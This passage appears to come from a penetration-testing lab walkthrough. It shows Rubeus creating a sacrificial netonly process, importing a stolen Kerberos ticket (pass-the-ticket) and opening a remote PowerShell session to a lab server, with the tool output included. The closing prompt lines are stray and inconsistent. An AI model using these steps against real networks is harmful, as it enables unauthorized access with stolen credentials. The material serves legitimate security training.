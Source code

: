 Next, we need to create a sacrificial process with the option `createnetonly`.

```powershell
PS C:\Tools> .\Rubeus.exe createnetonly /program:powershell.exe /show
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Create Process (/netonly)

[*] Using random username and password.

[*] Showing process : True
[*] Username        : SB09OE04
[*] Domain          : 16GFWBFF
[*] Password        : 5AB6RGSG
[+] Process         : 'powershell.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2088
[+] LUID            : 0xded959c

```

The above command will present us a PowerShell window with dummy credentials, we will use it to import the TGT of the account we want to use:

```powershell
PS C:\Tools> .\Rubeus.exe ptt /ticket:doIFsjCCBa6gAwIBBaEDAgEWooIEszCCBK9h...SNIP...
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Import Ticket
[+] Ticket successfully imported!

```

Now we can use this session to connect to the target machine:

```powershell
PS C:\Tools> Enter-PSSession SRV02.inlanefreight.local -Authentication Negotiate
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
SRV02

```


[SRV02]: PS C:\Users\helen\Documents>
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>